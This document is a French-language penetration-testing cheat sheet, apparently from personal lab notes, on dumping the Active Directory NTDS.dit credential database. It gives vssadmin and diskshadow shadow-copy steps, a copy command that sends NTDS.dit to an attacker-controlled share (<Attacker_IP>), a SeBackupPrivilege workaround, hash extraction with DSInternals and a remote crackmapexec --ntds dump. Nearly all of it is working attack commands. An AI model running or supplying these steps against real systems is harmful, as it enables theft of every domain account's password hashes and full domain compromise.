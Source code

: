 ```yaml
---
public: true
---
```


## Localement

### Cliché instantané (vssadmin)

#### Créer une Shadow Copy (cliché instantanné) du disque C

La base NTDS.dit est par défaut stockée dans `C:\Windows\NTDS`

```
vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

#### Copier à partir du cliché instantanné

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit \\<Attacker_IP>\share\
```

### Cliché instantanné (diskshadow.exe)

#### Créer une Shadow Copy (cliché instantanné) du disque C

```shell
diskshadow.exe
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```

#### Copier à partir du cliché instantanné

**Remarque** :  Si le fichier n'est pas accessible et que l'on est membre du groupe *Backup Operator*, on pourra y accéder via le privilège **SeBackupPrivilege** (voir [[Privilèges Windows Exploitables]])

```
# Ce cmdlet est lié à un outil référencé dans le lien ci-dessus
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

### Extraction des informations présentes dans NTDS.dit

```powershell-session
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key


```

## A distance

```
crackmapexec smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --ntds
```
